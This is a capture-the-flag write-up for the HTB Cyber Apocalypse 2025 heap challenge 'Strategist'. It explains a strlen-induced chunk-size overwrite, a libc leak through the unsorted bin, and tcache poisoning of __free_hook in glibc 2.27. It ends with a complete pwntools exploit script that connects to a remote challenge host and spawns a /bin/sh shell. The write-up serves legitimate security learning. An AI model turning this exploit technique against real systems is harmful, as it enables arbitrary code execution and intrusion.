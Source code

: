 ```yaml
---
title: Strategist
date: 2025-03-26T0:00:19+03:00
description: Writeup for Strategist [HTB Cyber Apocalypse 2025]
author: PineBel
tags:
- pwn 
- heap
draft: false
---
```


## Challenge description

To move forward, Sir Alaric requests each member of his team to present their most effective planning strategy. The individual with the strongest plan will be appointed as the Strategist for the upcoming war. Put forth your best effort to claim the role of Strategist!

## Intuition

It looks like a classic heap challenge. We can control the size of malloc and write to that chunk. We can also remove (free) that chunk and edit its contents. We also get the libc version which is: `glibc 2.27`. 
I used `patchelf` to modify my binary to have the correct libc and ld.

**Vulnerability**: When editing a chunk, the edit function computes the length with strlen, which means that we can overwrite the size field of the next chunk if we make the current chunk full.

```C
    __nbytes = strlen((char *)mem_ptr[input_idx]);
    read(0,(void *)mem_ptr[input_idx],__nbytes);
```

Example (allocate two chunks of 24, fill the first one up):
```
                                    0x0000000000000021	........!....... <--- first chunk
0x555555a01670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555555a01680	0x0a61616161616161	0x0000000000000021	aaaaaaa.!....... <--- second chunk
0x555555a01690	0x0000000a42424242	0x0000000000000000	BBBB............
0x555555a016a0	0x0000000000000000	0x0000000000020961	........a.......	 <-- Top chunk
```

Now if we edit the first chunk, strlen() will also include the second chunks size, so we can overwrite the size if we want.

So the strategy for this challenge would be to leak a libc address and do tcache poisoning to the \_\_free\_hook (since we have 2.27 we can do that) 
## Solution

#### Leaking libc

1. Create a chunk that gets in the Unsorted bin (bc it has fwd ptr and bck ptr towards the main arena).
2. Guard the Unsorted bin chunk with a smaller chunk to prevent merging with the top.


After we allocate a large chuck and a smaller chunk + free the large chunk + allocate large again to get leak:
```
0x555574953660	0x0000000000000000	0x0000000000000431	........1.......
0x555574953670	0x00007ab6a23ebc61	0x00007ab6a23ebca0	a.>..z....>..z..
0x555574953680	0x0000000000000000	0x0000000000000000	................
```


So after the leak it's just a simple tcache poisoning.
Steps for tcache poisoning:

1. Allocate three chunks that will fit in the tcache.

```
0x55555d52e660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d52e670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e690	0x6161616161616161	0x0000000000000031	aaaaaaaa1....... <--- C2
0x55555d52e6a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x55555d52e6d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6f0	0x6363636363636363
```

2. Use edit vuln to overwrite C2 size. This will allow us to overwrite C3 later.

```
0x555567480660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x555567480670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 (NEW SIZE)
0x5555674806a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x5555674806d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806f0	0x6363636363636363
```

3. Free C2 and C3 

```
                                    0x0000000000000031	........1....... <--- C1
0x555582d1f670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 
0x555582d1f6a0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x60][0/1]
0x555582d1f6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x555582d1f6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x555582d1f6d0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x30][0/1]
0x555582d1f6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x555582d1f6f0	0x6363636363636363
```

4. Allocate a chunk that fits in the 0x60 chunk size => we can overwrite C3 with the free hook

```
0x55555d4f7660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d4f7670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2
0x55555d4f76a0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76b0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76c0	0x6363636363636363	0x3434343434343434	cccccccc44444444 <--- C3 overwritten  (6d0 -> __free_hook ptr)
0x55555d4f76d0	0x00007f2d071ed8e8	0x000055555d4f7010	....-....pO]UU..	 <-- tcachebins[0x30][0/1]
0x55555d4f76e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76f0	0x6363636363636363

tcachebins
0x30 [  1]: 0x55555d4f76d0 —▸ 0x7f2d071ed8e8 (__free_hook) 
```

5. Allocate a chunk that will contain the args for system.
6. Allocate a chunk with a ptr to sytem.

```
x/1xg &__free_hook
0x78ed30ded8e8 <__free_hook>:	0x000078ed30a4f550
pwndbg> x 0x000078ed30a4f550
0x78ed30a4f550 <system>:	0xfa66e90b74ff8548
```

7. Call free on the chunk that has /bin/sh


Solve:
```py
from pwn import *
import time

#context.binary = bin = ELF("./strategist")
libc   = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')
#target = process([ld.path,bin.path],env={"LD_PRELOAD":libc.path})
target = remote("94.237.61.57",45450)


def allocate(size, p):
    target.sendlineafter(b'> ', b'1')
    target.sendlineafter(b'> ', str(size).encode())
    target.sendafter(b'> ', p)

def free(idx):
     target.sendlineafter(b'> ', b'4')
     target.sendlineafter(b'> ', str(idx).encode())

def show(idx):
    target.sendlineafter(b'> ', b'2')
    target.sendlineafter(b'> ', str(idx).encode())
    target.recvuntil(f'Plan [{idx}]: ')
    return target.recvline()[:-1]

def edit(idx,p):
    target.sendlineafter(b'> ', b'3')
    target.sendlineafter(b'> ', str(idx).encode())
    target.sendafter(b'> ', p)


allocate(0x420,b"a") # put in unsorted bin because it has 2 ptrs that we will leak 
allocate(0x100,b"b") # put tcache so that we don't merge with top chunk when we free

free(0)
free(1)

allocate(0x420,b"a") # this is the chunk with leak
leak = u64(show(0).ljust(8,b'\x00'))
leak = leak - 0x3ebc61
libc.address = leak
print(f"Leak:{leak:#010x}")
#print(hex(libc.sym.__free_hook))
free(0)


### Tcache poisoning

tcache_size = 0x28

allocate(tcache_size, tcache_size*b"a") # full chunk => leads to overflow
allocate(tcache_size, tcache_size*b"b") 
allocate(tcache_size, tcache_size*b"c")


edit(0,tcache_size*b"a"+p8(0x61)) # edit chunk so that we overwrite chunk size 
free(1)
free(2)

allocate(0x50,tcache_size*b"c"+b"4"*8+p64(libc.sym.__free_hook)) # this chunk will go into the one that overflows the second one (fwd_ptr), the second size actually doesn't matters (the 4)

allocate(tcache_size, b"/bin/sh\x00"+p64(0x0)) # prepare arg for system
allocate(tcache_size, p64(libc.sym.system)) # write system in free hook
#gdb.attach(target)
#pause()

print(show(2))
free(2) # call system with /bin/sh arg
target.interactive()
```




